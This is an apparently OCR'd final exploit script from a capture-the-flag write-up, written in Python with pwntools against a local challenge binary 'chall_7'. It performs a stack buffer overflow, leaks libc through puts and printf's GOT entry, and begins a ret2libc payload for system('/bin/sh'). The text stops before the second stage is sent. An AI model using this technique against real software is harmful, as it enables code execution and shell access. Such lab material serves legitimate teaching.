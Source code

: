 Code finale
```python
#!/bin/python3

from pwn import *

POP_EBX_RET = 0x0000101e
VULN_TO_BASE = 0x000011dd
PUTS_PLT = 0x00001070
PRINTF_GOT = 0x00004004
GOT_PLT = 0x00003ff4

libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)
io = process("./chall_7")
_vuln = int(io.recvline().split(b" @ ")[1], 16)

_base = _vuln - VULN_TO_BASE
_got_plt = _base + GOT_PLT
_puts_plt = _base + PUTS_PLT
_printf_got = _base + PRINTF_GOT
_pop_ebx_ret = _base + POP_EBX_RET

log.info("Target   BASE : 0x{:08x}".format(_base))
log.info("Target vuln() : 0x{:08x}".format(_vuln))
log.info("got.plt (ebx) : 0x{:08x}".format(_got_plt))
log.info("puts@PLT      : 0x{:08x}".format(_puts_plt))
log.info("printf@GOT    : 0x{:08x}".format(_printf_got))
log.info("pop gadget    : 0x{:08x}".format(_pop_ebx_ret))

payload = b"A"*0x100           # Padding to fill in the buffer
payload += b"ZzzzZzzz"          # Overwrite food.token
payload += p32(_got_plt)        # Rewrite the saved EBX (@got.plt)
payload += p32(0xdeadbeef) * 2  # Padding until we reach sEIP

payload += p32(_puts_plt)           # Overwrite sEIP to call puts and leak the printf() GOT's entry
payload += p32(_pop_ebx_ret)        # POP to clean up the arg and jump to the next stage
payload += p32(_printf_got)         # printf GOT's entry
payload += p32(_vuln)               # Ret2vuln so we can replay the vuln

io.sendlineafter(b"?", payload)

print(io.recvline())
print(io.recvline())
  
leak = io.recvline()
  
print("")
print(leak)
print("")
  
_base_libc = u32(leak[:4]) - libc.symbols["printf"]
_system_libc = _base_libc + libc.symbols["system"]
_binsh_libc = _base_libc + next(libc.search(b"/bin/sh\x00"))
  
log.info("libc          : 0x{:08x}".format(_base_libc))
log.info("system@libc   : 0x{:08x}".format(_system_libc))
log.info("binsh @libc   : 0x{:08x}".format(_binsh_libc))
  
payload = b"A"*0x100           # Padding to fill in the buffer
payload += b"ZzzzZzzz"          # Overwrite food.id
payload += p32(_got_plt)        # Rewrite the saved EBX (@got.plt)
payload += p32(0xdeadbeef) * 2  # Padding until we reach sEIP
  
payload += p32(_system_libc)    # Overwrite sEIP to call puts and leak the printf() GOT's entry
```